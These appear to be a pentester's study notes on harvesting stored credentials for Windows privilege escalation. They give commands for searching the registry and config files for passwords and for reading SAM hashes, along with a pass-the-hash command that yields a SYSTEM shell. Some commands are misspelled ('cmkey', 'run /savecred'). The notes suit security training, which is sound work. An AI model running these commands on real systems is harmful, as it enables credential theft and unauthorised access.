 ### Registry
Can can contain password for unsecure services.
[[reg#reg]]
```powershell
# search for password in either keyname or keyvalue recursively
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

### Saved Creds
- Windows can allow user to save their password with runas.exe command.
- Can be queried with:
```powershell
# list already saved key
cmkey /list

# use the cred to run reverse shell as that user.
run /savecred /user:<username> C\reverse.exe

```

### Unattended Windows Installation
When installing Windows on a large number of hosts, administrators may use Windows Deployment Services, which allows for a single operating system image to be deployed to several hosts through the network. These kinds of installations are referred to as unattended installations as they don't require user interaction. Such installations require the use of an administrator account to perform the initial setup, which might end up being stored in the machine in the following locations:

```
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```
```xml
<Credentials>
    <Username>Administrator</Username>
    <Domain>thm.local</Domain>
    <Password>MyPassword123</Password>
</Credentials>
```
As part of these files, you might encounter credentials:
```powershell
dir /s *pass* == *.config
```
- Searching for files that contains the word `password` and also ends in either `.xml` `.ini` or `.txt`
```powershell
findstr /si password *.xml *.ini *.txt
```

### SAM
- Security Accounts Manager
- Used for storing password hashes
- Encrypted using key found inside the file `SYSTEM`
- If SAM and SYSTEM is readable, it is possible to read hashes
- Located at `C:\Windows\System32\config` directory
- Locked while windows is running.
- Backup can be found at 
```powershell
C:\Windows\Repair
C:\windows\System32\config\RegBack
```
- Creddump7 can be used to fetch hashes from both the field.
> Hash that start with `31d6` means that either the account has no password or the account is deactivated.
- If hashes are not crackable, path-the-hash method can be used to login to the system.
- pth-winexe version of the winexe can be used to perform pass-the-hash attacks
```powershell
# hash should be both NL and LM hash
# add --system to get a SYSTEM level shell 
.\pth-winexe -U 'admin%<hash>' //<ip> cmd.exe
```

### Powershell History
Can be found in the below location: 
cmd:
```cmd
%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
powershell:
```powershell
$Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

### IIS Configuration Files
- Default web server in on windows installation.
- Configuration is stored in `web.config`, preferebly in the variable `connectionstring`
- `web.config` is stored in:
```powershell
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```

### PuTTY
- Putty can store proxy configuration in registry keys that includes cleartext authentication details.
- They are stored in :
```powershell
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```
